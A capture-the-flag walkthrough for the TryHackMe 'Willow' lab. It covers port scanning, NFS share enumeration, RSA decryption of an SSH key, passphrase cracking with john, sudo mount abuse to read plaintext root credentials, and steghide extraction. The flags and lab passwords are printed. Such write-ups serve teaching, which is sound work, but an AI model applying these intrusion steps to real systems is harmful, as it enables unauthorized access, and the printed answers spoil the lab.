

# Willow

## Description

What lies under the Willow Tree?

Grab the flags from the Willow

## Initial Scan

Let's start with an Nmap scan. The scan reveals four open ports:
* 22 ssh
* 80 http
* 111 rpcbind
* 2049 nfs

~~~
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 43:b0:87:cd:e5:54:09:b1:c1:1e:78:65:d9:78:5e:1e (DSA)
|   2048 c2:65:91:c8:38:c9:cc:c7:f9:09:20:61:e5:54:bd:cf (RSA)
|   256 bf:3e:4b:3d:78:b6:79:41:f4:7d:90:63:5e:fb:2a:40 (ECDSA)
|_  256 2c:c8:87:4a:d8:f6:4c:c3:03:8d:4c:09:22:83:66:64 (ED25519)
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Recovery Page
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      36458/udp6  mountd
|   100005  1,2,3      37722/tcp   mountd
|   100005  1,2,3      41856/udp   mountd
|   100005  1,2,3      58284/tcp6  mountd
|   100021  1,3,4      41467/tcp   nlockmgr
|   100021  1,3,4      42622/udp6  nlockmgr
|   100021  1,3,4      54473/udp   nlockmgr
|   100021  1,3,4      59100/tcp6  nlockmgr
|   100024  1          34533/tcp   status
|   100024  1          46769/udp6  status
|   100024  1          52998/udp   status
|   100024  1          59013/tcp6  status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
2049/tcp open  nfs_acl 2-3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Getting the SSH private key

After browsing the webpage, we face a long hex string which we can easily decode:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Willow/files]
└─$ curl -s "http://$IP/" | html2text | xxd -r -p > webmsg.txt
~~~

The hex string decoded to one line of message and more eyncrypted strings:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Willow/files]
└─$ cat webmsg.txt                                            
Hey Willow, here's your SSH Private key -- you know where the decryption key is!
2367 2367 2367 2367 2367 9709 8600 28638 18410 1735 33029 16186 28374 37248 33029 26842 16186 18410 23219 37248 11339 8600 33029 35670 8600 31131 2367 2367 2367 2367

[REDACTED]
~~~

### Decryption key

From the message, we know that we need to find a decryption key for `willow`'s ssh private key. My first guess was the NFS server running on port 2049. Let's check the remote share:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Willow/files]
└─$ showmount -e $IP
Export list for 10.10.9.158:
/var/failsafe *
~~~

There is a share. Let's mount it. First we make a directory to mount the share on, and then we can mount it and have access to it:

~~~
$ mkdir nfs
$ sudo mount -t nfs $IP:/var/failsafe nfs  
$ ls -la nfs       
total 12
drwxr--r-- 2 nobody nogroup 4096 Jan 30  2020 .
drwxr-xr-x 3 user   user    4096 Nov  2 06:11 ..
-rw-r--r-- 1 root   root      62 Jan 30  2020 rsa_keys
~~~

There is a file named `rsa_keys`. Let's read it:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Willow/files]
└─$ cat nfs/rsa_keys
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627)
~~~

If you don't know what these values are, read [this article](https://muirlandoracle.co.uk/2020/01/29/rsa-encryption/) anout RSA encryption.

WE can assume the following values:
* Public Key Pair: (e, n)
* Private Key Pair: (d, n)

Which means:
* e = 23
* n = 37627
* d = 61527

### Decrypting the key

Now we have enough info to decrypt the key. I used [this](https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html) online RSA calculator. Add the values as shown below and you'll get the key:

## Attempting to connect to SSH

I tried connecting to the machine via SSH service using the key, but it seems like the key has a passphrase:

~~~
$ chmod 600 rsa_key
$ ssh -i rsa_key willow@$IP
Enter passphrase for key 'rsa_key': 
willow@10.10.9.158's password: 
Permission denied, please try again.
willow@10.10.9.158's password: 
Permission denied, please try again.
willow@10.10.9.158's password: 
willow@10.10.9.158: Permission denied (publickey,password,hostbased).
~~~

### Cracking the passphrase

Let's crack the passphrase. First I used an additional tool called `ssh2john` which changes the format of the key to a format which is crackable by `john`, then I ran `john` using `rockyou` wordlist to crack its passphrase:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Willow/files]
└─$ /usr/share/john/ssh2john.py rsa_key > key.hash
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Willow/files]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt key.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
wildflower       (rsa_key)
Warning: Only 1 candidate left, minimum 4 needed for performance.
1g 0:00:00:08 DONE (2021-11-02 07:59) 0.1236g/s 1772Kp/s 1772Kc/s 1772KC/s *7¡Vamos!
Session completed
~~~

RSA key passphrase: `wildflower`

## User Flag

Now we can connect to the machine via ssh as user `willow`. First I listed the files in our home directory and the user flag is in a jpg format:

~~~
willow@willow-tree:~$ id
uid=1000(willow) gid=1000(willow) groups=1000(willow),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),119(bluetooth)
willow@willow-tree:~$ ls -la
total 96
drwxr-xr-x 16 willow willow  4096 Mar  2  2020 .
drwxr-xr-x  3 root   root    4096 Jan 30  2020 ..
lrwxrwxrwx  1 willow willow     9 Jan 30  2020 .bash_history -> /dev/null
-rw-r--r--  1 willow willow   220 Jan 30  2020 .bash_logout
-rw-r--r--  1 willow willow  3515 Jan 30  2020 .bashrc
drwxr-xr-x  8 willow willow  4096 Jan 30  2020 .cache
drwx------ 11 willow willow  4096 Jan 30  2020 .config
drwxr-xr-x  2 willow willow  4096 Jan 30  2020 Desktop
drwxr-xr-x  2 willow willow  4096 Jan 30  2020 Documents
drwxr-xr-x  2 willow willow  4096 Jan 30  2020 Downloads
drwx------  3 willow willow  4096 Mar  2  2020 .gconf
drwx------  2 willow willow  4096 Jan 30  2020 .gnupg
-rw-------  1 willow willow  4056 Mar  2  2020 .ICEauthority
drwx------  3 willow willow  4096 Jan 30  2020 .local
drwxr-xr-x  2 willow willow  4096 Jan 30  2020 Music
drwxr-xr-x  2 willow willow  4096 Jan 30  2020 Pictures
-rw-r--r--  1 willow willow   675 Jan 30  2020 .profile
drwxr-xr-x  2 willow willow  4096 Jan 30  2020 Public
drwx------  2 willow willow  4096 Mar  1  2020 .ssh
drwxr-xr-x  2 willow willow  4096 Jan 30  2020 Templates
-rw-r--r--  1 willow willow 12721 Jan 30  2020 user.jpg
drwxr-xr-x  2 willow willow  4096 Jan 30  2020 Videos
~~~

I used `scp` to transfer the user flag to my machine:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Willow/files]
└─$ scp -i rsa_key willow@$IP:/home/willow/user.jpg . 
Enter passphrase for key 'rsa_key': 
user.jpg                                                                            100%   12KB  37.8KB/s   00:00
~~~

Now we can display the flag:

User flag: `THM{beneath_the_weeping_willow_tree}`

## Going root

Now we need to gain root access in roder to obtain the root flag. I ran `sudo -l` to check my sudo permissions:

~~~
willow@willow-tree:~$ sudo -l
Matching Defaults entries for willow on willow-tree:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User willow may run the following commands on willow-tree:
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*
~~~

As you can see, we can mount any partition in `/dev` with sudo and no password. Let's see what we have there:

~~~
willow@willow-tree:~$ ls -la /dev

[REDACTED]

crw-rw-rw-   1 root root      1,   7 Nov  2 11:46 full
crw-rw-rw-   1 root root     10, 229 Nov  2 11:46 fuse
brw-rw----   1 root disk    202,   5 Nov  2 11:46 hidden_backup  <------
crw-------   1 root root     10, 228 Nov  2 11:46 hpet
drwxr-xr-x   2 root root           0 Nov  2 11:46 hugepages

[REDACTED]
~~~

A partition took my attention: `hidden_backup`. Let's mount it and see what we can find. First creat a directory to mount the partition on, and then we mount it:

~~~
willow@willow-tree:~$ mkdir backup
willow@willow-tree:~$ sudo /bin/mount /dev/hidden_backup backup/
willow@willow-tree:~$ ls -la backup
total 6
drwxr-xr-x  2 root   root   1024 Jan 30  2020 .
drwxr-xr-x 17 willow willow 4096 Nov  2 12:32 ..
-rw-r--r--  1 root   root     42 Jan 30  2020 creds.txt
willow@willow-tree:~$ cat backup/creds.txt 
root:7QvbvBTvwPspUK
willow:U0ZZJLGYhNAT2s
~~~

Great! We have the password for `root` and user `willow`:
* root:7QvbvBTvwPspUK
* willow:U0ZZJLGYhNAT2s

## Root flag (not real)

Now we can switch to root and head to `/root` and read the "root flag":

~~~
willow@willow-tree:~$ su root
Password: 
root@willow-tree:/home/willow# cd /root
root@willow-tree:~# ls
root.txt
root@willow-tree:~# cat root.txt 
This would be too easy, don't you think? I actually gave you the root flag some time ago.
You've got my password now -- go find your flag!
~~~

## Root flag

Nice! We have been bamboozled! I know exactly what it means. `user.jpg` is where the root flag is. You can extract the root flag from the image using `steghide` and root's password:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Willow/files]
└─$ steghide extract -sf user.jpg
Enter passphrase: 
wrote extracted data to "root.txt".
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Willow/files]
└─$ cat root.txt  
THM{find_a_red_rose_on_the_grave}
~~~

Root flag: `THM{find_a_red_rose_on_the_grave}`

# D0N3! ; )

Thanks to the creator(s) for being creative! : )

Hope you had fun and learned something!

Have a g00d one! : )